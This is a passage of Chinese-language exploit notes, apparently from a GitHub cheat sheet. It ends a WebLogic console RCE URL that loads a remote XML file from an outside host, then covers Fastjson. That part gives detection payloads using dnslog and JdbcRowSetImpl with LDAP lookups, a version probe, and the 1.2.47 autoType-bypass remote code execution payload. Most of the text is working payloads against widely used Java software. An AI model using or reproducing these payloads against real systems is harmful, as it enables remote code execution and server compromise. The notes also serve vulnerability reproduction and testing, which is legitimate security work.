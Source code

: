     ```s

    http://ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://1.1.1.1/rce.xml")`
    ```

# Fastjson

>[Fastjson漏洞复现笔记](https://www.freebuf.com/vuls/276812.html)

* 介绍

    java处理JSON数据有三个比较流行的类库，gson(google维护)、jackson、以及今天的主角fastjson，fastjson是阿里巴巴一个开源的json相关的java library，地址在这里，https://github.com/alibaba/fastjson，Fastjson可以将java的对象转换成json的形式，也可以用来将json转换成java对象，效率较高，被广泛的用在web服务以及android上，它的JSONString（）方法可以将java的对象转换成json格式，同样通过parseObject方法可以将json数据转换成java的对象。

## 1.2.47RCE

* 判断

    1、根据返回包判断：
    任意抓个包，提交方式改为POST，花括号不闭合。返回包在就会出现fastjson字样。当然这个可以屏蔽，如果屏蔽使用其它办法。

    2、利用dnslog盲打：
    构造以下payload（content-type字段为application/json），利用dnslog平台接收：{"zeo":{"@type":"java.net.Inet4Address","val":"ntel8h.dnslog.cn"}}（不同版本，payload不同。推荐这种方式）

    ```

    {
        "b":{
            "@type":"com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName":"ldap://ntel8h.dnslog.cn/test",
            "autoCommit":true
        }
    }
    ```

    

    探测版本payload（根据回显判断）：

    ```

    [{"a":"a\x]

    {"@type":"java.lang.AutoCloseable"

    a
    ```

    

    1.2.47版本payload：

    ```

    {
        "a": {
            "@type": "java.lang.Class", 
            "val": "com.sun.rowset.JdbcRowSetImpl"
        }, 
        "b": {
            "@type": "com.sun.rowset.JdbcRowSetImpl", 
            "dataSourceName": "ldap://dnslog/", 
            "autoCommit": true
        }
    }
    ```
